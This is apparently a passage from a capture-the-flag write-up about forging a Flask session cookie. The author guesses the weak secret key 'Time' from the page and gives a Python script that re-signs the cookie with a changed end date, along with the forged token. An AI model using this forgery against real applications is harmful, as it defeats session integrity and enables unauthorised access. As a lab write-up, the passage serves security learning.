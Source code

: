 Taking a look at the session cookie and the logic of the javascript on the page:

```javascript
window.addEventListener('load', function() {
			    var cookie = Cookies.get('session');
			    var data = cookie.split('.')[0].replace(/_/g, '/').replace(/-/g, '+');
			    var data = JSON.parse(atob(data));
			    var end = moment.utc(data['end']);
			    setInterval(function() {
			    	var dur = moment.duration(end.diff(moment.utc()));
			    	var disp = dur.get("days") + "d " + dur.get("hours") + "h " + dur.get("minutes") + "m " + dur.get("seconds") + "s";
			    	document.getElementById("countdown").innerHTML = disp; 
			    }, 1000);
			});
```

We see that the variable `end` is a date hardcoded into the cookie. This means we can modify it and the server will hopefully read our input without sanitization.

However, we notice that the cookie has some extraneous characters at the end `eyJlbmQiOiIyMDIwLTA3LTEzIDE2OjU5OjU5KzAwMDAifQ.Xwu32g.eGyibsd0-7vE_XZSZrczJOWT7pU`, which was not JWT as JWT uses dot separators.

Doing a quick google search, it turned out to be a flask cookie. But we needed a key for that!

This was where Justin came in and said

> But what if `Time` is key?

That's right, the key was hiding in plainsight just above the countdown timer.

Using the code of [this stackoverflow answer](https://stackoverflow.com/a/42289001/4420129), we write the following script:

```python
from flask import Flask, session
from flask.sessions import SecureCookieSessionInterface

app = Flask("example")
app.secret_key = "Time"

session_serializer = SecureCookieSessionInterface() \
                         .get_signing_serializer(app)

@app.route("/")
def test():
    session["end"] = "2020-07-10 16:59:59+0000"

    session_cookie = session_serializer.dumps(dict(session))
    return session_cookie

app.run(host="0.0.0.0")
```

Which will change the end date and encrypt it into this flask cookie: `eyJlbmQiOiIyMDIwLTA3LTEwIDE2OjU5OjU5KzAwMDAifQ.XwpcKA.JP9x_llcMpcXoTJdt1KRF7nxEMg
`
